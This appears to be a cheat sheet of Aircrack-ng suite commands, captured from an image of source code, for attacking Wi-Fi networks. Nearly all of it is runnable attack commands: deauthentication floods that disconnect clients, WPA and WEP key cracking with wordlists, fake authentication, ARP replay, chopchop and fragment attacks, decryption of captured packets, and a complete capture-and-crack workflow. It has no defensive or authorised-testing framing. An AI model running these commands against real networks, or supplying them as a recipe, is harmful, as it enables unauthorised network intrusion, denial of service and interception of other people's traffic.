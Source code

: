 ```bash
# Deauthentication attack (to capture handshake)
sudo aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF en0mon  # Deauth all clients
sudo aireplay-ng --deauth 5 -a AA:BB:CC:DD:EE:FF -c CLIENT_MAC en0mon  # Specific client

# WPA cracking
aircrack-ng -w wordlist.txt capture-01.cap      # Dictionary attack
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF capture-01.cap

# WEP cracking
aircrack-ng -b AA:BB:CC:DD:EE:FF capture-01.cap  # Auto-detect encryption
aircrack-ng -n 128 capture-01.cap               # 128-bit WEP
aircrack-ng -n 64 capture-01.cap                # 64-bit WEP

# Packet injection test
sudo aireplay-ng --test en0mon                  # Test injection
sudo aireplay-ng --test wlan1 -i wlan0          # Test with specific interface

# Fake authentication (WEP)
sudo aireplay-ng --fakeauth 0 -a AA:BB:CC:DD:EE:FF -h YOUR_MAC en0mon
sudo aireplay-ng --fakeauth 6000 -o 1 -q 10 -a AA:BB:CC:DD:EE:FF en0mon

# ARP replay (WEP)
sudo aireplay-ng --arpreplay -b AA:BB:CC:DD:EE:FF -h YOUR_MAC en0mon

# Chopchop attack (WEP)
sudo aireplay-ng --chopchop -b AA:BB:CC:DD:EE:FF -h YOUR_MAC en0mon

# Fragment attack (WEP)
sudo aireplay-ng --fragment -b AA:BB:CC:DD:EE:FF -h YOUR_MAC en0mon

# Decrypt captured packets
airdecap-ng -w WEP_KEY -b AA:BB:CC:DD:EE:FF capture-01.cap  # WEP
airdecap-ng -p WPA_PASSWORD -e SSID capture-01.cap          # WPA

# Convert formats
airolib-ng database --import passwd wordlist.txt  # Create database
airolib-ng database --import essid essid.txt
airolib-ng database --batch                       # Generate PMKs
aircrack-ng -r database capture-01.cap            # Crack with database

# Tools in suite
airmon-ng                                       # Monitor mode management
airodump-ng                                     # Packet capture
aireplay-ng                                     # Packet injection
aircrack-ng                                     # Cracking
airdecap-ng                                     # Decryption
airolib-ng                                      # PMK database
packetforge-ng                                  # Packet forging
ivstools                                        # IV tools
makeivs-ng                                      # Generate IV files

# Practical examples
# Complete WPA capture and crack
sudo airmon-ng start en0
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wpa en0mon
# In another terminal:
sudo aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF en0mon
# Wait for handshake, then Ctrl+C
aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa-01.cap

# WEP cracking workflow
sudo airmon-ng start en0
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep en0mon
```